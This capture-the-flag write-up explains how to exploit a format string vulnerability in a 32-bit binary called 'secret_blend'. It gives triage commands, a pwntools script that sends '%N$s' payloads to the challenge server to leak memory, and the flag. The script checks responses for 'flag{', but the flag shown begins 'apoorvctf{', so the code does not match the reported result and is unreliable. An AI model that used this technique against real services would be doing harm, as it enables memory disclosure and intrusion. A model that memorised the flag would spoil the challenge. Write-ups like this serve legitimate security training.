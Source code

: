 # !Kogarashi Café - The Secret Blend  

**Category:** Binary Exploitation 

A challenge that involves analyzing a binary and exploiting format string vulnerabilities to retrieve the flag.  

---

### Challenge  

**Provided File:** `secret_blend`  

---

## Overview  

1. **Analyzing the Binary**  
   - Use `file secret_blend` to determine the binary type:
     
     ```sh
     ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=00003bb9e0cd2a32ea61c4b60004ed82aa94d4a9, not stripped
     ```
   - Run `strings secret_blend` to find readable text inside:
     ```sh
     Barista: 'The special blend is missing...
     ```
   - Disassemble the binary using `objdump`:
     ```sh
     objdump -d secret_blend > disassembly.txt
     ```
   - Load the binary in **Ghidra** or **Binary Ninja** to reverse-engineer its logic.  

2. **Identifying the Vulnerability**  
   - The binary contains a **format string vulnerability** that can be exploited to leak memory and extract the flag.
   - The challenge is to find the correct offset in the format string to retrieve the flag.  

---

## Steps to Exploit  

1. **Check Binary Properties**  
   ```sh
   file secret_blend  
   checksec --file=secret_blend  
   strings secret_blend  
   ```

2. **Reverse Engineer the Binary**  
   - Load in **Ghidra** or **Binary Ninja** to analyze its functions and identify vulnerable inputs.  
   - The program does not properly sanitize user input, making it susceptible to a format string attack.  

3. **Exploit Format String Vulnerability**  
   - Use a script to test different offsets and locate the flag in memory.  

---

## Exploit Script  

```python
#!/usr/bin/env python3
from pwn import *

def test_offset(offset):
    try:
        # Create a new connection for each attempt
        p = remote("chals1.apoorvctf.xyz", 3003)
        # Wait until the prompt appears (using bytes)
        p.recvuntil(b"What will you have?")
        # Craft the payload for the given offset
        payload = f"%{offset}$s".encode()
        p.sendline(payload)
        # Use recvall to get all data until the connection closes
        response = p.recvall(timeout=2)
        p.close()
        return response
    except EOFError:
        # If the connection is closed before we receive data, return empty bytes
        return b""

def main():
    flag = None
    # Try offsets 1 through 15 to see which one leaks the flag
    for offset in range(1, 16):
        response = test_offset(offset)
        print(f"Offset {offset}: {response}")
        if b"flag{" in response:
            flag = response
            log.success("Flag found: " + flag.decode(errors="ignore"))
            break
    if flag is None:
        log.error("Flag not found. Adjust the offset range if needed.")

if __name__ == "__main__":
    main()
```

---

## Extracted Flag  

```
apoorvctf{Th3_M3nu_L34ks_M0re_Than_It_Sh0uld}
```

This write-up details the steps taken to analyze the binary, identify the vulnerability, and exploit it to retrieve the flag.

